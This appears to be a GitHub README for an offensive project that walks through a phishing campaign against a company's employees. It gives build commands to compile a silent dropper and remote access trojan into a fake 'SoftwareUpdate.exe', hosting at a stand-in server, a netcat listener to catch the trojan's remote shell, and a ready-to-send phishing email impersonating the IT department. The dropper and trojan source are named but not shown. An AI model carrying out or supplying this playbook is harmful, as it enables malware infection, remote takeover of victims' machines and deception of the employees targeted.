 # Operation ShadowUpdate

## Scenario
Company X employees are targeted via a phishing email disguised as a mandatory software update from IT. Victims download and run `SoftwareUpdate.exe`, a dropper that installs a custom RAT.

## Components
- **dropper.py** → Downloads + runs the RAT silently, shows fake success popup.
- **rat.py** → Persistent RAT with remote shell capability.
- **email_template.txt** → Phishing lure template.

## Execution
1️⃣ Compile dropper + RAT to build a single silent exe for the dropper and the RAT (no need for python on target machine)
```bash
pyinstaller --onefile --noconsole dropper.py
pyinstaller --onefile --noconsole --name SoftwareUpdate rat.py
```
2️⃣ Host `SoftwareUpdate.exe` on `http://yourserver.com/SoftwareUpdate.exe`
3️⃣ On the attacker machine, run a Netcat listener to accept connections from the RAT:
```bash
nc -lvnp 443
```
Where:
- `-l` → Listen for incoming connections
- `-v` → Verbose output (shows connection info)
- `-n` → Do not resolve DNS (faster)
- `-p 443` → Listen on port 443 (must match RAT's configured port)

Ensure port 443 is open on the attacker's firewall/router.


4️⃣ Deliver `SoftwareUpdate.exe` to target using an email.

## Example Phishing Email
```
From: it-support@companyx.com
Subject: URGENT: Security Update Required

Dear employee,

A critical security patch is required. Download and run the attached SoftwareUpdate.exe immediately.
Trust us. We’re the IT department.

IT Security Team
Company X
```

